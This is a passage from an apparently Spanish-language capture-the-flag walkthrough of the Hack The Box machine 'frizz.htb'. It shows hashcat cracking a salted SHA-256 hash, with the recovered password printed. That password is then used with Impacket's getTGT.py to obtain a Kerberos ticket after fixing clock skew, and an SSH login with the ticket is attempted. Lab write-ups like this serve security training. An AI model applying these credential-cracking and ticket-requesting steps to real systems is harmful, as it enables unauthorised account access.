 ```bash
   1410 | sha256($pass.$salt)                                        | Raw Hash salted and/or iterated
   1420 | sha256($salt.$pass)                                        | Raw Hash salted and/or iterated
<SNIP>
```

Ahora, podremos probar con ambos por si da algún resultado, pero sólo utilizando el `1420` nos dará nuestra contraseña:

```bash
❯ hashcat -m 1420 hashes.dump /usr/share/wordlists/rockyou.txt
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23
```

Ahora, con la contraseña y el usuario, utilizamos `getTGT.py` ya que _kerberos_ __seguramente estará interactuando con ssh__, `Kerberos` para recordar, es un protocolo de autenticación basado en tickets; existen 2: los `TGT` que sirven principalmente para autenticar a un usuario, los `ST` que sirve para que un usuario utilice un servicio: ahora, si intentamos acceder a SSH, nos dará un error y eso es por que `Kerberos` está pensado para ser una solución centralizada; entonces, necesitamos primero un __TGT para pedir a kerberos un ST para acceder mediante SSH__.

Como mencionamos anteriormente, utilizamos `getTGT.py` pero...

```js
❯ getTGT.py frizz.htb/f.frizzle:Jenni_Luvs_Magic23
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Eso es por el NTP, para resolverlo sólo necesitamos sincronizar con respecto al DC con el siguiente comando:

```js
 ❯ sudo ntpdate -v frizz.htb
2025-09-01 04:18:50.986456 (-0600) +25200.926809 +/- 0.115606 frizz.htb 10.10.11.60 s1 no-leap
CLOCK: time stepped by 25200.926809
```

Y confirmarás que funciona:

```js
❯ getTGT.py frizz.htb/f.frizzle:Jenni_Luvs_Magic23
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in f.frizzle.ccache
```

Y podemos exportarlo en el comando que utilicemos con `ssh` (agregando el `-K` para indicar autenticación por kerberos):

```js
❯ KRB5CCNAME=f.frizzle.ccache ssh -K f.frizzle@frizzdc.frizz.htb
f.frizzle@frizzdc.frizz.htb: Permission denied (gssapi-with-mic,keyboard-interactive).
```
